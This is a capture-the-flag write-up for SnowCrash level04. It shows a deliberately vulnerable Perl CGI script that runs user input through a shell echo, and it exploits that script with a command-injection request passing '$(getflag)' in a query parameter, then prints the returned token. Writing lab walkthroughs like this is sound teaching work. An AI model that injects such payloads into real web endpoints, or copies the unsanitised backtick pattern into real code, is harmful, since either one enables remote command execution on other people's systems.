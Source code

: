 # Flag 04

In the level04 home directory we found a perl script and the same script in the `/var/www/level04/`.
```
level04@SnowCrash:~$ ls
level04.pl
level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
we found also that apache is serving it in port `4747`
```
level04@SnowCrash:~$ cat /etc/apache2/sites-enabled/level05.conf
<VirtualHost *:4747>
	DocumentRoot	/var/www/level04/
	SuexecUserGroup flag04 level04
	<Directory /var/www/level04>
		Options +ExecCGI
		DirectoryIndex level04.pl
		AllowOverride None
		Order allow,deny
		Allow from all
		AddHandler cgi-script .pl
	</Directory>
</VirtualHost>

```
so we visited the the `<VM ip>:4747` and we got a blank page
after reading the script it looks like it's just echoing anything the user give it in the x param and sending it back to the client.

And since the file owner is flag04 if we could make it run the getflag command we will get our flag.

```
level04@SnowCrash:~$ ls -l /var/www/level04/
total 4
-r-xr-x---+ 1 flag04 level04 152 Jun 19 15:21 level04.pl
```
so we used the quey param with a value `$(getflag)`

```
$ curl -X GET "<ip>:4747/?x=\$(getflag)"

Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```